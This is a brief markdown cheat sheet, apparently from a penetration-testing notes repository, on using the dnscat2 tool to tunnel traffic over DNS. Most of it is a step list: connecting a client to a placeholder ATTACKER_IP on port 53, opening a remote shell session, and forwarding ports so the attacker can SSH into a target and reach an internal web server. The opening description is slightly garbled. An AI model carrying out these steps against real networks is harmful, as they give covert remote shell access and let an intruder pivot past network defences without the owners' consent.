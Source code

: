 # dnscat2 

### DNScat2 is a tool which can be used to create a tunnel with the help of DNS protocol. A connection to port 53 should be established to access any data. DNScat2 mainly consists of a client and a Kali Linux.

## Github repo: https://github.com/iagox86/dnscat2

### Steps:

 - dnscat2-server (Kali Linux)

 - ./dnscat --dns=server=ATTACKER_IP,port=53

 - session (Kali)

 - session -i 1 (Kali)

 - shell

 - session -i 2

 - ifconfig (shell)

 - listen 127.0.0.1:8888 TARGET:22 (shell)

 - ssh USER@127.0.0.1 -p 8888 (Kali)

 - listen 127.0.0.1:9999 192.168.226.129:80 (Port 80 tunneling)
